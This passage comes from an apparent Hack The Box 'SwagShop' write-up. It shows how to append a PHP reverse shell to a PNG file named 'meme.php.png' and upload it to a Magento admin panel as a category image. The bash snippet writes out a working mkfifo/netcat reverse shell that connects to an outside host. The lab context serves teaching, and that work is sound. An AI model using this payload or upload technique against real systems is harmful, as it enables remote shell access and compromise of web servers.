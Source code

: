 
Now I need to grab a PNG file, and name is with the `.php.png` extension.

![](/assets/htb-swagshop/meme.php.png)

Now that we have the file, we need to add our reverse shell script into the code of the image. The below lines will append our reverse shell to the end of the image.

```bash
echo '<?php' >> meme.php.png
echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 7500 >/tmp/f");' >> meme.php.png
echo '?>' >> meme.php.png
```

Next, we need to upload the image to Magento CMS as a category. This will allow us to call it later in this attack. On the admin panel, navigate to *Catalog > Manage Categories*, then click *Add Root Category* on the left-hand side. Give it a name, and select the image we modified. Hit *Save Config* to finish.

![](/assets/htb-swagshop/meme_create_catergory.png)

